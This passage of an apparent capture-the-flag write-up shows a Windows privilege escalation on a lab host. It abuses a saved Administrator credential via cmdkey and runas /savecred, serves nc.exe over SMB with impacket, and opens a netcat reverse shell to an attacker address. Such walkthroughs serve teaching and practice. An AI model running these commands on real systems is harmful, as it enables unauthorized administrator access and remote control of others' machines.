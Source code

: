 ```batch
$ telnet 10.129.152.72
Trying 10.129.152.72...
Connected to 10.129.152.72.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password:

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

---

## Saved Credential Privilege Escalation

`Administrator`'s credential is stored in Windows Credential Manager.

```batch
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Serve a Windows `netcat` binary via SMB and start a reverse shell listener.

```bash
$ sudo impacket-smbserver tgihf /usr/share/windows-binaries -smb2support
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Use the stored credential to execute a `netcat` reverse shell.

```batch
C:\Users\security>runas /savecred /user:ACCESS\Administrator "\\10.10.14.139\tgihf\nc.exe -nv 10.10.14.139 443 -e cmd.exe"
```
